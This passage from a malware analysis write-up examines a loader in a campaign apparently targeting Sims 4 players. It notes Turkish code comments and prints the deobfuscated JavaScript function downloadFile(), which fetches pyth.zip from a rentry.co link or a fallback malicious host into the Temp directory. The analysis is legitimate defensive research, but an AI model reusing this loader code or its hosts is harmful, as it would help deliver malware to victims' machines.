 
Alongside the comments in English, there are also a few comments in Turkish. This could indicate that the authors are Turkish:
![sims4_turkish_comments.png](/assets/img/posts/malware_analysis/sims4_malware_post/sims4_turkish_comments.png)

# Stage 3.0 - Loader 2 electric boogaloo

The deobfuscated payload appears to call a 4th payload, as the function called `downloadFile()` would imply:
 It downloads another file, called `pyth.zip`, and stores it in the Temp directory

```js
async function downloadFile() {
 try {
  const url = 'https://rentry.co/7vzdm/raw';
  const response = await axios.get(url);
  const fileUrl = response.data;
  const fileResponse = await axios.get(fileUrl, { responseType: 'stream' });
  const writer = fs.createWriteStream(tempFile);
  fileResponse.data.pipe(writer);
  return new Promise((resolve, reject) => {
   writer.on('finish', resolve);
   writer.on('error', reject);
  });
 } catch (error) {
  try {
   const fileUrl = "https://bestofmedia.xyz/.well-known/pki-validation/pyth.zip";
   const fileResponse = await axios.get(fileUrl, { responseType: 'stream' });
   const writer = fs.createWriteStream(tempFile);
   fileResponse.data.pipe(writer);
   return new Promise((resolve, reject) => {
    writer.on('finish', resolve);
    writer.on('error', reject);
});
  } catch (error) {
   console.error('Error:', error.message);
   process.exit(1);
  }
 }
}
```
